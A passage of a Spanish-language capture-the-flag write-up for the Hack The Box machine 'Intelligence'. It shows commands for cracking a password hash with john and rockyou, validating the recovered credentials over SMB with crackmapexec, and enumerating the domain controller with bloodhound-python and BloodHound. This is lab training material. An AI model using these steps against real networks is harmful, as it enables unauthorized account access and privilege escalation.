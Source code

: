 
```bash
john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```


{:.note}
La pass es Mr.Teddy y el usuario Ted.Graves.


Podemos hacer lo que siempren hacemos y validar las credenciales.


```bash
crackmapexec smb 10.10.10.248 -u "Ted.Graves" -p "Mr.Teddy"
```


{:.note}
Son credenciales validas pero no pwned.


Con la siguente herrmienta vamos arecolectar toda la informacion del DC.


![list](/assets/img/intelligence/Kali-2022-09-10-03-24-11.png){:.lead width="800" height="100" loading="lazy"}


```bash
bloodhound-python -c All -u 'Ted.Graves' -p 'Mr.Teddy' -ns 10.10.10.248 -d intelligence.htb
```


En este caso vamos a enumerar posibles vectores para escalar privileguios con bloodHound.


```bash
neo4j console
```


{:.note}
Arrancamos neo4j que comparte un servicio por el puero 4747 y te loogeas si ya los has hecho habres el bloodhound.


```bash
bloodhound &> /dev/null & disown
```


{:.note}
Independizamos el proceso.

